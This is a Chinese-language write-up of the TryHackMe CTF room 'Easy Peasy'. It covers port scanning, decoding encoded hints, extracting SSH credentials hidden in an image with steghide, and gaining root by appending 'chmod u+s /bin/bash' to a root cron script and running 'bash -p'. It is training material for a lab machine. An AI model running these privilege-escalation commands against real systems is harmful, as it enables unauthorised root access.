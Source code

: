 ```yaml
---
sidebar_position: 28
tags: [Easy, Linux, 文件隐写, 密码学, 定时任务]
title: Easy Peasy
description: Easy Peasy
sidebar_label: Easy Peasy
slug: /tryhackme/28
---
```

# Easy Peasy
## 端口扫描
```bash
root@ip-10-10-85-216:~# nmap -sT -p- --min-rate 1000 10.10.190.240

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-21 15:37 BST
Nmap scan report for ip-10-10-190-240.eu-west-1.compute.internal (10.10.190.240)
Host is up (0.0061s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
MAC Address: 02:34:91:4B:07:0D (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.64 seconds
root@ip-10-10-85-216:~# nmap -sTCV -p 80,6498,65524 --min-rate 1000 10.10.190.240

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-21 15:37 BST
Nmap scan report for ip-10-10-190-240.eu-west-1.compute.internal (10.10.190.240)
Host is up (0.00019s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (EdDSA)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:34:91:4B:07:0D (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80 - HTTP
访问 80 端口我发现这是一个 nginx 系统, 进行目录扫描

![20240601180934](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601180934.png)

我访问其中一个目录发现一段 Base64 , 进行解码 [CyberChef](https://gchq.github.io/CyberChef/)

![20240601180946](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601180946.png)

## 65524
访问 robots.txt 我发现其中有一段内容, 经过查看这段内容是 MD5 进行加密, 然后进行解密即可 [md5hashing](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

![20240601181018](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181018.png)

然后查看网页我发现一个 flag 

![20240601181046](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181046.png)

查看网页源代码我发现一段隐藏内容 [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base62('0-9A-Za-z')&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1)

![20240601181058](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181058.png)

之后我们可以得到一个目录的路径, 然后我们继续访问发现一段字符串

![20240601181119](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181119.png)

使用题目给出的密码表进行解密,得到一个密码

![20240601181128](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181128.png)

现在有了密码, 我猜测可能是 SSH 密码, 但是不知道用户名是什么, 我注意到有一些图片, 那么可能存在文件隐写术

```bash
root@ip-10-10-85-216:~/img# steghide info  binarycodepixabay.jpg 
"binarycodepixabay.jpg":
  format: jpeg
  capacity: 4.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secrettext.txt":
    size: 278.0 Byte
    encrypted: no
    compressed: no
root@ip-10-10-85-216:~/img# steghide extract -sf binarycodepixabay.jpg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
root@ip-10-10-85-216:~/img# cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

## 后渗透
### boring

![20240601181213](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181213.png)

### boring --> root
发现有一个定时任务

![20240601181228](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601181228.png)

我们修改这个文件来执行命令

```bash
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
boring@kral4-PC:/var/www$ cat << EOF >> .mysecretcronjob.sh 
> chmod u+s /bin/bash
> EOF
boring@kral4-PC:/var/www$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
boring@kral4-PC:/var/www$ date
Mon Aug 21 08:15:57 PDT 2023
boring@kral4-PC:/var/www$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
boring@kral4-PC:/var/www$ /bin/bash -p
bash-4.4# id
uid=1000(boring) gid=1000(boring) euid=0(root) groups=1000(boring)
```
